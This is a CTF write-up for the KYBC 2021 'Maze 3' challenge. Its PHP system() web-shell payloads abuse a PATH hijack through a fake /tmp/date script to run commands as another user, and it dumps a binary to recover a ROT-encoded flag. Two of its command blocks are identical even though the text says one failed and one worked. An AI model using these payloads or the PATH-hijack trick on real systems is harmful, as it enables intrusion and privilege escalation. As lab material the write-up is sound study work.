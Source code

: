Title: KYBC 2021 - Maze 3 Writeup
Date: 2021-03-24
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-3-writeup
Summary: Writeup for Maze 3 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 2]({filename}/CTF/kybc-yogosha-maze2.md) first_

Third maze, third user. Let's check what's in `home/ctf_user3`

```
<?php system('ls -al /home/ctf_user3'); ?>
```

It looks like ctf_user2 owns `image.txt` and `RAnd0m`. Hovewer, neither concatenating the content of `image.txt` nor running the `RAnd0m` executable bring anything useful.

Let's try to inspect the binary then with the good ol' `strings`

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

No luck. What about `od` then?

```
<?php system('echo "strings /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```
Well that worked. Now I only need to figure out how to get out a proper hexdump from it. After a bit of digging, the `man` page comes to the rescue and provides with the syntax I need.

```
<?php system('echo "od -A x -t x1z -v /home/ctf_user3/RAnd0M" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Let's copy the hex dump into a txt file in my machine, recreate the binary and finally run `strings` on it

```
xxd -r -p rand.txt out.bin
strings out.bin
```

One of the strings seems to match the flag pattern `pvkq{dbiH._dy_pvkqH.E.H.U.H._wo_?}`.

Running it through a [ROT decoder](http://theblob.org/rot.cgi?) gives me `flag{tryX._to_flagX.U.X.K.X._me_?}`. Since the flag doesn't look too right and the system doesn't accept anyway, let's assume I probably messed up something while tinkering with `od` and manually fix it: `flag{try_to_flag_me_?}`.
